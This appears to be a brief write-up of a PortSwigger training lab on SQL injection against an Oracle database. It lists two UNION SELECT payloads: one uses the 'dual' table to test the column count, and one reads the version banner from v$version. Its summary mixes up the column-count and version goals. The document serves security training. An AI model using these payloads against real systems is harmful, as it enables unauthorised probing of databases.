# SQL Injection - Quering the database type and version on Oracle

## 📌 Lab Details
- **Title**: SQL Injection - Quering Database
- **Difficulty**: Medium
- **Category**: SQL Injection
- **Lab URL**: https://portswigger.net/academy/labs/launch/974bd9df06352f8b59c679f854a5bc7e3db6c7fb83f72db653509252a6d47e28?referrer=%2fweb-security%2fsql-injection%2fexamining-the-database%2flab-querying-database-version-oracle

## 🔍 Summary
This lab demonstrated how an Sql Injecection attack can be used to retrieve the number of columns in a database.

## 🛠 Steps to Solve
1. Use Burp Suite to intercept and modify the request.
2. Injected `'+UNION+SELECT+'abc','def'+FROM+dual--` into the search field
3. Following payload `'+UNION+SELECT+BANNER,+NULL+FROM+v$version--` for the database version

## 📖 Key Takeaways
- Understanding how a built in table like `'dual'` can allow for an SQL Injection attack.
- Retrieving the number of columns of the database can allow for a UNION or an ORDER BY attack.


